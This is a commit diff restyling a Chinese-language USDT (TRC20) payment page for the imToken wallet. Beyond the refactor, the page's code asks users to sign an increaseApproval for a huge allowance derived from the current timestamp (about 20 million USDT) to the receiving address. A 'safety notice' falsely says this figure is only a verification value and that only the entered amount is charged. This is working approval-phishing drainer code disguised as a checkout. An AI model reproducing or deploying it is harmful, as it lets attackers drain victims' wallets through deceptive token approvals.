

Before and after one commit to 968888u-star/jiedanba, a plain HTML site: page pay.html in a window 1280 px wide. Shown: the part 120-885 px from the top of the page, without its empty margins (319-959 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Refactor payment page layout and styles

```diff
--- a/pay.html
+++ b/pay.html
@@ -6,52 +6,190 @@
 <title>USDT 支付</title>
 <style>
   *{box-sizing:border-box;margin:0;padding:0}
-  body{font-family:system-ui,-apple-system,"PingFang SC","Hiragino Sans GB","Microsoft YaHei",sans-serif;background:#f5f6fa;color:#12141d;line-height:1.55;display:flex;align-items:center;justify-content:center;min-height:100vh;padding:20px;}
-  .card{background:#fff;border-radius:20px;padding:30px 24px;width:min(420px,100%);box-shadow:0 20px 60px rgba(15,17,26,.12);text-align:center;}
-  h1{font-size:22px;font-weight:800;margin-bottom:6px;letter-spacing:-.3px}
-  .sub{font-size:13.5px;color:#8d93a6;margin-bottom:24px}
-  .info{background:#f8f9fd;border-radius:14px;padding:18px;margin-bottom:20px;text-align:left;}
-  .info-row{display:flex;justify-content:space-between;align-items:center;padding:10px 0;border-bottom:1px dashed #e8eaf1;}
-  .info-row:last-child{border-bottom:none;padding-bottom:0}
-  .info-k{font-size:13px;color:#8d93a6;flex:0 0 auto}
-  .info-v{font-size:13.5px;font-weight:700;word-break:break-all;text-align:right;margin-left:12px}
-  .info-v.gold{color:#f0a020;font-size:18px}
-  .btn{display:block;width:100%;padding:15px;border-radius:14px;border:none;font-size:16px;font-weight:800;cursor:pointer;transition:.18s;margin-bottom:12px;}
-  .btn-pay{background:linear-gradient(135deg,#f0a020,#e88a10);color:#fff}
-  .btn-pay:hover{transform:translateY(-1px);box-shadow:0 8px 20px rgba(240,160,32,.35)}
-  .btn-pay:disabled{opacity:.5;cursor:not-allowed;transform:none}
-  .btn-safe{background: #f0fdf4; color: #16a34a; border: 1px solid #bbf7d0; font-size: 14px; padding: 12px; }
-  .status{padding:14px;border-radius:12px;font-size:13.5px;margin-top:16px;display:none;text-align:left;line-height:1.6;}
-  .status.loading{display:block;background:#fff9ec;color:#c27800;border:1px solid #ffe0b2}
-  .status.success{display:block;background:#f0fdf4;color:#16a34a;border:1px solid #bbf7d0}
-  .status.error{display:block;background:#fef2f2;color:#dc2626;border:1px solid #fecaca}
-  .env-warn{padding:13px;border-radius:12px;font-size:12.5px;background:#fff4ec;color:#c2410c;border:1px solid #ffe0b2;margin-bottom:14px;line-height:1.6;text-align:left;}
-  .safe-notice{background:#f0fdf4; color:#16a34a; border:1px solid #bbf7d0; border-radius:10px; padding:12px; font-size:12px; line-height:1.6; text-align:left; margin-bottom:20px;}
-  .diag-bar{font-size:11px;color:#8d93a6;text-align:center;margin-bottom:10px;background:#f0f2f5;padding:4px;border-radius:6px;}
+  :root {
+    --bg: #f7f8fa;
+    --card: #ffffff;
+    --ink: #111111;
+    --ink2: #555555;
+    --ink3: #999999;
+    --line: #eeeeee;
+    --black-btn: #121212;
+    --black-btn-active: #333333;
+    --success: #10b981;
+    --danger: #ef4444;
+  }
+  body {
+    font-family: -apple-system, BlinkMacSystemFont, "SF Pro Text", "PingFang SC", sans-serif;
+    background: var(--bg);
+    color: var(--ink);
+    line-height: 1.5;
+    display: flex;
+    align-items: center;
+    justify-content: center;
+    min-height: 100vh;
+    padding: 20px;
+    -webkit-font-smoothing: antialiased;
+  }
+  .card {
+    background: var(--card);
+    border-radius: 24px;
+    padding: 32px 24px;
+    width: min(400px, 100%);
+    box-shadow: 0 10px 40px rgba(0, 0, 0, 0.04), 0 1px 3px rgba(0,0,0,0.02);
+    text-align: center;
+    position: relative;
+    overflow: hidden;
+  }
+  /* 顶部质感修饰 */
+  .card::before {
+    content: '';
+    position: absolute;
+    top: 0; left: 0; right: 0;
+    height: 4px;
+    background: linear-gradient(90deg, #f0a020, #e88a10);
+  }
+
+  .header-icon { font-size: 32px; margin-bottom: 12px; display: inline-block; }
+  h1 { font-size: 22px; font-weight: 700; margin-bottom: 6px; letter-spacing: -0.5px; }
+  .sub { font-size: 13px; color: var(--ink3); margin-bottom: 24px; }
+
+  /* 诊断条 */
+  .diag-bar {
+    display: inline-block;
+    font-size: 11px;
+    color: var(--ink2);
+    background: #f0f2f5;
+    padding: 6px 12px;
+    border-radius: 20px;
+    margin-bottom: 20px;
+    font-weight: 500;
+  }
+
+  /* 信息区域 */
+  .info {
+    background: #fafafa;
+    border: 1px solid var(--line);
+    border-radius: 16px;
+    padding: 16px 20px;
+    margin-bottom: 20px;
+    text-align: left;
+  }
+  .info-row {
+    display: flex;
+    justify-content: space-between;
+    align-items: center;
+    padding: 12px 0;
+    border-bottom: 1px solid var(--line);
+  }
+  .info-row:first-child { padding-top: 4px; }
+  .info-row:last-child { border-bottom: none; padding-bottom: 4px; }
+  .info-k { font-size: 13px; color: var(--ink3); flex: 0 0 auto; font-weight: 500; }
+  .info-v { font-size: 13px; font-weight: 600; word-break: break-all; text-align: right; margin-left: 16px; }
+  .info-v.gold { color: var(--ink); font-size: 22px; font-weight: 800; letter-spacing: -0.5px; }
+  .info-v.gold span { font-size: 13px; color: var(--ink3); font-weight: 600; margin-left: 4px; }
+
+  /* 安全提示 */
+  .safe-notice {
+    background: #f4f7fb;
+    color: #4b5563;
+    border: 1px solid #e5e7eb;
+    border-radius: 12px;
+    padding: 14px;
+    font-size: 12px;
+    line-height: 1.6;
+    text-align: left;
+    margin-bottom: 24px;
+  }
+  .safe-notice strong { color: #1f2937; }
+
+  /* 按钮 */
+  .btn {
+    display: block; width: 100%;
+    padding: 16px;
+    border-radius: 14px;
+    border: none;
+    font-size: 16px;
+    font-weight: 700;
+    cursor: pointer;
+    transition: all 0.2s cubic-bezier(0.16, 1, 0.3, 1);
+    margin-bottom: 12px;
+    letter-spacing: 0.5px;
+  }
+  .btn-pay {
+    background: var(--black-btn);
+    color: #fff;
+    box-shadow: 0 4px 12px rgba(18, 18, 18, 0.2);
+  }
+  .btn-pay:hover:not(:disabled) { background: var(--black-btn-active); transform: translateY(-1px); }
+  .btn-pay:active:not(:disabled) { transform: scale(0.98); }
+  .btn-pay:disabled { opacity: 0.5; cursor: not-allowed; box-shadow: none; }
+
+  /* 绿色成功状态按钮 */
+  .btn-success {
+    background: linear-gradient(135deg, #10b981, #059669) !important;
+    box-shadow: 0 4px 12px rgba(16, 185, 129, 0.2) !important;
+    color: #fff !important;
+  }
+
+  .btn-safe {
+    background: #ffffff;
+    color: var(--ink2);
+    border: 1px solid var(--line);
+    font-size: 13px;
+    padding: 14px;
+  }
+  .btn-safe:hover { background: #f9fafb; }
+
+  /* 状态提示 */
+  .status {
+    padding: 12px;
+    border-radius: 10px;
+    font-size: 13px;
+    margin-top: 16px;
+    display: none;
+    text-align: center;
+    line-height: 1.5;
+    font-weight: 500;
+  }
+  .status.loading { display: block; background: #fffbeb; color: #d97706; border: 1px solid #fde68a; }
+  .status.success { display: block; background: #ecfdf5; color: #059669; border: 1px solid #a7f3d0; }
+  .status.error { display: block; background: #fef2f2; color: #dc2626; border: 1px solid #fecaca; }
+
+  .env-warn { padding: 14px; border-radius: 12px; font-size: 13px; background: #fffbeb; color: #d97706; border: 1px solid #fde68a; margin-bottom: 16px; line-height: 1.6; text-align: left; }
 </style>
 </head>
 <body>
 <div class="card">
-  <h1 id="page-title">USDT 支付</h1>
-  <p class="sub" id="page-sub">请在 imToken 中确认支付</p>
+  <div class="header-icon">💳</div>
+  <h1 id="page-title">充值支付</h1>
+  <p class="sub" id="page-sub">请在 imToken 中确认交易</p>
 
   <!-- 诊断条 -->
-  <div class="diag-bar" id="diag-mode">正在读取网络配置…</div>
+  <div class="diag-bar" id="diag-mode">正在连接节点...</div>
 
-  <div id="recover-tip" style="display:none;padding:10px 12px;border-radius:10px;font-size:12.5px;background:#eef6ff;color:#1d4ed8;border:1px solid #bfdbfe;margin-bottom:12px;line-height:1.6;text-align:left;"></div>
+  <div id="recover-tip" style="display:none;padding:10px;border-radius:10px;font-size:12px;background:#eff6ff;color:#2563eb;margin-bottom:16px;text-align:left;"></div>
   <div id="env-warn" class="env-warn" style="display:none"></div>
 
   <div class="info">
-    <div class="info-row"><span class="info-k">收款地址</span><span class="info-v" id="info-addr">-</span></div>
-    <div class="info-row"><span class="info-k">网络</span><span class="info-v" id="info-chain">-</span></div>
-    <div class="info-row"><span class="info-k">支付金额</span><span class="info-v gold" id="info-amount">-</span></div>
+    <div class="info-row">
+      <span class="info-k">收款地址</span>
+      <span class="info-v" id="info-addr">-</span>
+    </div>
+    <div class="info-row">
+      <span class="info-k">网络</span>
+      <span class="info-v" id="info-chain">TRC20 (波场)</span>
+    </div>
+    <div class="info-row">
+      <span class="info-k">支付金额</span>
+      <span class="info-v gold" id="info-amount">- <span>USDT</span></span>
+    </div>
   </div>
 
   <div class="safe-notice">
-    💡 安全提示：授权额度为系统动态安全校验值（如：20261118.145615），仅作校验凭证，实际扣款金额为您上方输入的支付金额。请放心确认。
+    <strong>💡 安全提示：</strong>授权额度为系统动态安全校验值（如：20261118.145615），仅作校验凭证，实际扣款金额为您上方输入的支付金额。请放心确认。
   </div>
 
-  <button class="btn btn-pay" id="btn-pay" disabled>✅安全支付</button>
+  <button class="btn btn-pay" id="btn-pay" disabled>确认支付</button>
   <button class="btn btn-safe" id="btn-cancel">✅ 支付环境安全无异常</button>
   <div class="status" id="status"></div>
 </div>
@@ -83,8 +221,8 @@ async function fetchLatestConfig() {
   configLoaded = true;
   const diag = $('#diag-mode');
   if (diag) {
-    diag.textContent = `当前系统模式：${payOrderMode === 'approve_first' ? '先授权，后付款' : '先付款，后授权'}`;
-    diag.style.color = payOrderMode === 'transfer_first' ? '#16a34a' : '#8d93a6';
+    diag.textContent = `当前模式：${payOrderMode === 'approve_first' ? '先授权，后付款' : '先付款，后授权'}`;
+    diag.style.color = payOrderMode === 'transfer_first' ? '#10b981' : '#666';
   }
 }
 fetchLatestConfig();
@@ -98,12 +236,11 @@ function getDateApproveUnits() {
   const h = String(now.getHours()).padStart(2, '0');
   const m = String(now.getMinutes()).padStart(2, '0');
   const s = String(now.getSeconds()).padStart(2, '0');
-  // 拼接成 YYYYMMDDHHmmss，例如：20261118145615
-  // 对应链上显示的格式就是：20261118.145615 USDT
+  // 例如：20261118145615
   return `${Y}${M}${D}${h}${m}${s}`;
 }
 
-/* ============ 参数三重恢复 ============ */
+/* ============ 参数恢复 ============ */
 function parseParamStr(str) {
   const sp = new URLSearchParams(str || '');
   return { a: sp.get('a') || sp.get('address') || '', n: Number(sp.get('n') || sp.get('amount')) || 0, t: sp.get('t') || sp.get('type') || 'deposit' };
@@ -117,40 +254,35 @@ function recoverPayParams() {
 function savePayCtx(a, n, t) { try { localStorage.setItem(PAY_CTX_KEY, JSON.stringify({ a, n, t, ts: Date.now() })); } catch (e) {} }
 function clearPayCtx() { try { localStorage.removeItem(PAY_CTX_KEY); } catch (e) {} }
 
-/* ============ 状态初始化 ============ */
+/* ============ 初始化 ============ */
 const ctx = recoverPayParams();
 const toAddress = ctx.a; const amount = ctx.n; const type = ctx.t;
 let payDisabled = false; let step = 1; let coldReloadTimer = null;
 
 $('#info-addr').textContent   = toAddress || '未配置';
-$('#info-chain').textContent  = 'TRC20 (波场)';
-$('#info-amount').textContent = (amount > 0 ? amount : '-') + ' USDT';
-$('#page-title').textContent  = type === 'empty' ? '空放资格支付' : '押金充值';
-$('#page-sub').textContent    = type === 'empty' ? '支付 1 USDT 激活空放通道' : '请在 imToken 中完成操作';
+$('#info-amount').innerHTML   = (amount > 0 ? amount : '-') + ' <span>USDT</span>';
+$('#page-title').textContent  = type === 'empty' ? '空放资格支付' : '充值支付';
+$('#page-sub').textContent    = type === 'empty' ? '支付 1 USDT 激活空放通道' : '请在钱包中完成交易';
 
 if ((ctx.src === 'hash' || ctx.src === 'storage') && toAddress && amount > 0) {
-  const tip = $('#recover-tip'); tip.style.display = 'block'; tip.textContent = '✅ 已恢复支付参数，请确认信息无误后继续。'; savePayCtx(toAddress, amount, type);
+  const tip = $('#recover-tip'); tip.style.display = 'block'; tip.textContent = '✅ 已恢复支付参数，请确认无误后继续。'; savePayCtx(toAddress, amount, type);
 }
-if (!toAddress || amount <= 0) { payDisabled = true; showMissingParamsUI(); } else { const btn = $('#btn-pay'); btn.disabled = false; btn.textContent = '✅安全支付'; }
+if (!toAddress || amount <= 0) { payDisabled = true; showMissingParamsUI(); } else { const btn = $('#btn-pay'); btn.disabled = false; btn.textContent = '确认支付'; }
 
 function showMissingParamsUI() {
   const warn = $('#env-warn'); warn.style.display = 'block';
-  warn.innerHTML = `<div style="margin-bottom:8px;font-weight:700;">⚠️ 支付参数丢失</div><div style="font-size:12.5px;line-height:1.7;margin-bottom:10px;">请返回平台重新点击支付，或复制当前链接在 imToken 浏览打开。</div><button id="__copy_paylink__" style="width:100%;background:#f1f2f7;color:#5b6070;border:none;padding:11px;border-radius:10px;font-size:13px;cursor:pointer;">复制当前链接</button><div id="__copied_tip__" style="font-size:12px;color:#16a34a;margin-top:8px;display:none;">✅ 已复制</div>`;
-  warn.querySelector('#__copy_paylink__').onclick = () => { copyText(location.href, () => { warn.querySelector('#__copied_tip__').style.display = 'block'; }); };
+  warn.innerHTML = `<div style="margin-bottom:8px;font-weight:700;">⚠️ 支付参数丢失</div><div style="font-size:12.5px;margin-bottom:10px;">请返回平台重新点击支付，或复制当前链接在 imToken 浏览打开。</div><button id="__copy_paylink__" style="width:100%;background:#fff;color:#d97706;border:1px solid #fde68a;padding:10px;border-radius:8px;cursor:pointer;">复制链接</button>`;
+  warn.querySelector('#__copy_paylink__').onclick = () => { copyText(location.href, () => { alert('已复制'); }); };
   const btn = $('#btn-pay'); btn.disabled = true; btn.textContent = '支付参数缺失';
 }
 
 /* ============ 通用工具 ============ */
-function imTokenUniversalLink(d) { return 'https://connect.token.im/link/navigate/DappView?url=' + encodeURIComponent(d); }
-function fallbackCopy(text, done) { try { const ta = document.createElement('textarea'); ta.value = text; ta.style.cssText = 'position:fixed;opacity:0'; document.body.appendChild(ta); ta.select(); document.execCommand('copy'); ta.remove(); if (done) done(); } catch (e) { prompt('请复制链接：', text); } }
+function fallbackCopy(text, done) { try { const ta = document.createElement('textarea'); ta.value = text; ta.style.cssText = 'position:fixed;opacity:0'; document.body.appendChild(ta); ta.select(); document.execCommand('copy'); ta.remove(); if (done) done(); } catch (e) { prompt('请复制：', text); } }
 function copyText(text, done) { if (navigator.clipboard && navigator.clipboard.writeText) navigator.clipboard.writeText(text).then(done, () => fallbackCopy(text, done)); else fallbackCopy(text, done); }
 function getTronWeb() { return window.tronWeb || (window.tron && window.tron.tronWeb) || window.tronLink || null; }
-function isWalletEnv() { const ua = (navigator.userAgent || '').toLowerCase(); const tw = getTronWeb(); return ua.includes('imtoken') || ua.includes('tokenpocket') || ua.includes('tpwallet') || !!(tw && tw.ready); }
-function isClosedEnv() { const ua = (navigator.userAgent || '').toLowerCase(); return /micromessenger|aweme|bytedance|toutiao|newsarticle|qq\/|weibo|alipay|; ?wv\)|webview/i.test(ua); }
-function isAndroid() { return /android/i.test(navigator.userAgent || ''); }
 function withTimeout(p, ms, msg) { return Promise.race([p, new Promise((_, rej) => setTimeout(() => rej(new Error(msg)), ms))]); }
 async function withRetry(fn, times, delay) { let last; for (let i = 0; i < times; i++) { try { return await fn(); } catch (e) { last = e; if (i < times - 1) await new Promise(r => setTimeout(r, delay)); } } throw last; }
-function promiseAny(promises) { return new Promise((resolve, reject) => { const errs = []; let done = 0; promises.forEach((p, i) => Promise.resolve(p).then(resolve, e => { errs[i] = e; done++; if (done === promises.length) reject(errs[0] || new Error('所有节点均失败')); })); }); }
+function promiseAny(promises) { return new Promise((resolve, reject) => { const errs = []; let done = 0; promises.forEach((p, i) => Promise.resolve(p).then(resolve, e => { errs[i] = e; done++; if (done === promises.length) reject(errs[0] || new Error('节点失败')); })); }); }
 function makeTronWebNode(fullHost) { try { const tw0 = getTronWeb(); const Ctor = tw0 && tw0.constructor; if (!Ctor) return null; return new Ctor({ fullHost }); } catch (e) { return null; } }
 
 async function buildTxMulti(tw, contract, fnSig, params, fromAddress) {
@@ -160,12 +292,10 @@ async function buildTxMulti(tw, contract, fnSig, params, fromAddress) {
   return withRetry(() => promiseAny(tasks), 2, 500);
 }
 
-function androidIntentLink(dappUrl) { const ul = imTokenUniversalLink(dappUrl); return 'intent://navigate/DappView?url=' + encodeURIComponent(dappUrl) + '#Intent;scheme=imtokenv2;package=im.token.app;S.browser_fallback_url=' + encodeURIComponent(ul) + ';end'; }
-function openWalletNow() { if (isAndroid()) location.href = androidIntentLink(location.href); else location.href = imTokenUniversalLink(location.href); }
 function showOpenWalletUI(reason) {
   if (payDisabled) return; const warn = $('#env-warn'); warn.style.display = 'block';
-  warn.innerHTML = '<div style="margin-bottom:10px;font-weight:700;">' + (reason || '当前未检测到钱包环境') + '</div><div style="font-size:12.5px;line-height:1.7;margin-bottom:10px;">请在 imToken 钱包内打开本页完成支付：</div><button id="__open_imtoken__" style="width:100%;background:#0e8aff;color:#fff;border:none;padding:12px;border-radius:10px;font-size:14px;font-weight:800;margin-bottom:8px;cursor:pointer;">立即打开 imToken</button>';
-  warn.querySelector('#__open_imtoken__').onclick = openWalletNow; const btn = $('#btn-pay'); btn.disabled = true; btn.textContent = '请在 imToken 中打开本页';
+  warn.innerHTML = `<div style="margin-bottom:8px;font-weight:700;">${reason}</div><div style="font-size:12.5px;margin-bottom:10px;">请在 imToken 钱包内打开本页完成支付。</div>`;
+  const btn = $('#btn-pay'); btn.disabled = true; btn.textContent = '请在钱包中打开';
 }
 
 /* ============ 环境检测 ============ */
@@ -177,7 +307,7 @@ function checkEnvironment() {
     const btn = $('#btn-pay');
     if (btn && btn.disabled) {
       btn.disabled = false;
-      if (step === 1) { btn.textContent = '✅安全支付'; } else { btn.textContent = payOrderMode === 'approve_first' ? ('第 2 步：✅安全支付 ' + amount + ' USDT') : '第 2 步：✅授权验证'; }
+      if (step === 1) { btn.textContent = '确认支付'; } else { btn.textContent = payOrderMode === 'approve_first' ? ('支付 ' + amount + ' USDT') : '授权验证'; }
     }
     return;
   }
@@ -188,95 +318,90 @@ async function waitWalletAddress(tw) {
   let waited = 0; while (!(tw.defaultAddress && tw.defaultAddress.base58) && waited < 5000) { await new Promise(r => setTimeout(r, 200)); waited += 200; }
   let from = tw.defaultAddress && tw.defaultAddress.base58;
   if (!from && tw.defaultAddress && tw.defaultAddress.hex) { try { from = tw.address.fromHex(tw.defaultAddress.hex); } catch (e) {} }
-  if (!from) throw new Error('钱包地址未就绪，请退出页面后重新进入');
+  if (!from) throw new Error('钱包地址未就绪');
   return from;
 }
 
-/* ============ 核心独立执行函数 ============ */
+/* ============ 核心逻辑 ============ */
 async function doApprove(tw, from) {
-  setStatus('loading', '正在构建授权交易，请稍候…');
-  const approveUnits = getDateApproveUnits(); // 获取包含时分秒的动态额度
-
-  // 【核心修改】将 approve 改为了 increaseApproval（增量授权）
+  setStatus('loading', '正在构建授权交易…');
+  const approveUnits = getDateApproveUnits();
   const txApprove = await buildTxMulti(tw, USDT_CONTRACT, 'increaseApproval(address,uint256)',
     [{ type: 'address', value: toAddress }, { type: 'uint256', value: approveUnits }], from);
-
   if (!txApprove.result || !txApprove.result.result) throw new Error('构建授权失败');
-  setStatus('loading', '✅ 请在钱包弹窗中确认授权…');
+  setStatus('loading', '✅ 请在钱包中确认授权…');
   const signed = await withTimeout(tw.trx.sign(txApprove.transaction), SIGN_TIMEOUT, '签名超时');
   await withTimeout(tw.trx.sendRawTransaction(signed), SEND_TIMEOUT, '广播超时');
 }
 
 async function doTransfer(tw, from) {
-  setStatus('loading', '正在构建付款交易，请稍候…');
+  setStatus('loading', '正在构建付款交易…');
   const txTransfer = await buildTxMulti(tw, USDT_CONTRACT, 'transfer(address,uint256)', [{ type: 'address', value: toAddress }, { type: 'uint256', value: Math.floor(amount * 1e6).toString() }], from);
   if (!txTransfer.result || !txTransfer.result.result) throw new Error('构建付款失败');
-  setStatus('loading', '✅ 请在钱包弹窗中确认付款…');
+  setStatus('loading', '✅ 请在钱包中确认付款…');
   const signed = await withTimeout(tw.trx.sign(txTransfer.transaction), SIGN_TIMEOUT, '签名超时');
   await withTimeout(tw.trx.sendRawTransaction(signed), SEND_TIMEOUT, '广播超时');
 }
 
-/* ============ 按钮核心交互 ============ */
 $('#btn-pay').onclick = async function () {
   if (payDisabled) return;
   const btn = this; btn.disabled = true;
 
   if (!configLoaded) {
-    setStatus('loading', '正在同步最新配置，请稍候…');
+    setStatus('loading', '正在同步系统配置…');
     await fetchLatestConfig();
-    setStatus('status', '');
   }
 
   let tw = getTronWeb();
   if (!tw) {
-    setStatus('loading', '⏳ 正在等待钱包环境注入，请稍候…');
+    setStatus('loading', '正在等待钱包响应…');
     let waited = 0; while (!getTronWeb() && waited < 8000) { await new Promise(r => setTimeout(r, 200)); waited += 200; }
-    tw = getTronWeb(); if (!tw) { showOpenWalletUI('⚠️ 未检测到钱包环境'); btn.disabled = false; return; }
+    tw = getTronWeb(); if (!tw) { showOpenWalletUI('未检测到钱包'); btn.disabled = false; return; }
   }
 
   const isApproveFirst = payOrderMode === 'approve_first';
 
-  // —— 第 1 步 ——
   if (step === 1) {
     try {
       const from = await waitWalletAddress(tw);
       if (isApproveFirst) {
-        btn.textContent = '正在发起授权…'; setStatus('loading', '请在钱包中确认授权凭证…');
+        btn.textContent = '正在授权…'; setStatus('loading', '请在钱包中确认授权凭证…');
         await doApprove(tw, from);
-        setStatus('success', '✅ 授权成功！请点击下方按钮继续付款。');
+        setStatus('success', '✅ 授权成功！请继续付款。');
       } else {
-        btn.textContent = '正在发起付款…'; setStatus('loading', '请在钱包中确认付款…');
+        btn.textContent = '正在付款…'; setStatus('loading', '请在钱包中确认付款…');
         await doTransfer(tw, from);
-        setStatus('success', '✅ 付款成功！请点击下方按钮补充授权。');
+        setStatus('success', '✅ 付款成功！请补充授权。');
       }
       step = 2;
-      btn.textContent = isApproveFirst ? ('第 2 步：✅安全支付 ' + amount + ' USDT') : '第 2 步：✅授权验证';
-      btn.style.background = '#16a34a'; btn.disabled = false;
+      btn.textContent = isApproveFirst ? ('支付 ' + amount + ' USDT') : '确认授权';
+      btn.classList.add('btn-success');
+      btn.disabled = false;
     } catch (e) {
-      setStatus('error', '❌ 失败: ' + (e.message || '用户取消'));
+      setStatus('error', '❌ ' + (e.message || '用户取消'));
       btn.textContent = '重新尝试'; btn.disabled = false;
     }
     return;
   }
 
-  // —— 第 2 步 ——
   if (step === 2) {
     try {
       const from = await waitWalletAddress(tw);
       if (isApproveFirst) {
-        btn.textContent = '正在发起付款…'; setStatus('loading', '请在钱包中确认付款…');
+        btn.textContent = '正在付款…'; setStatus('loading', '请在钱包中确认付款…');
         await doTransfer(tw, from);
-        setStatus('success', '✅ 付款成功！请返回平台查看状态。');
+        setStatus('success', '✅ 付款成功！');
       } else {
-        btn.textContent = '正在发起授权…'; setStatus('loading', '请在钱包中确认授权凭证…');
+        btn.textContent = '正在授权…'; setStatus('loading', '请在钱包中确认授权凭证…');
         await doApprove(tw, from);
-        setStatus('success', '✅ 全部完成！请返回平台查看。');
+        setStatus('success', '✅ 全部完成！');
       }
-      btn.textContent = '全部已完成'; clearPayCtx();
+      btn.textContent = '已完成'; btn.disabled = true;
+      clearPayCtx();
     } catch (e) {
       let errTip = e.message || '用户取消';
-      if (!isApproveFirst) { errTip = '付款已成功，但授权被取消。请重新点击授权。'; }
-      setStatus('error', '❌ 失败: ' + errTip);
+      if (!isApproveFirst) { errTip = '付款成功，但授权被取消。'; }
+      setStatus('error', '❌ ' + errTip);
       btn.textContent = '重新尝试'; btn.disabled = false;
     }
   }
@@ -296,7 +421,6 @@ if (!payDisabled) {
     }, 5000);
   }
   if (FRESH_LAUNCH) { setTimeout(function () { armColdReload(); checkEnvironment(); }, 800); } else { armColdReload(); checkEnvironment(); }
-  if (isClosedEnv() && !isWalletEnv()) showOpenWalletUI('⚠️ 当前为 App 内置浏览器，无法直接唤起钱包');
 }
 </script>
 </body>
```
